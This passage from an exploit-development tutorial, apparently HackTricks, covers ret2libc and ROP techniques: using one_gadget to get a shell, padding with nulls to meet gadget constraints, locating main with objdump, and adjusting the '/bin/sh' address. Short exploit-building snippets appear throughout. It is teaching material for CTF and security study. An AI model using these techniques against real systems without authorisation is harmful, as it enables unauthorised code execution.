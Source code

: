 You could also use [ONE_GADGET ](https://github.com/david942j/one_gadget)to obtain a shell instead of using system and "/bin/sh". ONE_GADGET will find inside the libc library some way to obtain a shell using just one ROP.
However, normally there are some constrains, the most common ones and easy to avoid are like `[rsp+0x30] == NULL` As you control the values inside the RSP you just have to send some more NULL values so the constrain is avoided.

```
ONE_GADGET = libc.address + 0x4526a
rop2 = base + p64(ONE_GADGET) + "\x00"*100
```

### EXPLOIT FILE

You can find a template to exploit this vulnerability here:

[ROP-PWN template](https://book.hacktricks.xyz/exploiting/linux-exploiting-basic-esp/rop-pwn-template)

### Common problems

#### MAIN_PLT = elf.symbols['main'] not found

If the "main" symbol does not exist. Then you can just where is the main code:

```
objdump -d vuln_binary | grep "\.text"
Disassembly of section .text:
0000000000401080 <.text>:
```

and set the address manually:

```
MAIN_PLT = 0x401080
```

#### Puts not found

If the binary is not using Puts you should check if it is using

#### `sh: 1: %s%s%s%s%s%s%s%s: not found`

If you find this error after creating all the exploit: `sh: 1: %s%s%s%s%s%s%s%s: not found`

Try to subtract 64 bytes to the address of "/bin/sh":

```
BINSH = next(libc.search("/bin/sh")) - 64
```

## Ret2Lib

**If you have found a vulnerable binary and you think that you can exploit it using Ret2Lib here you can find some basic steps that you can follow.**

### If you are **inside** the **host**
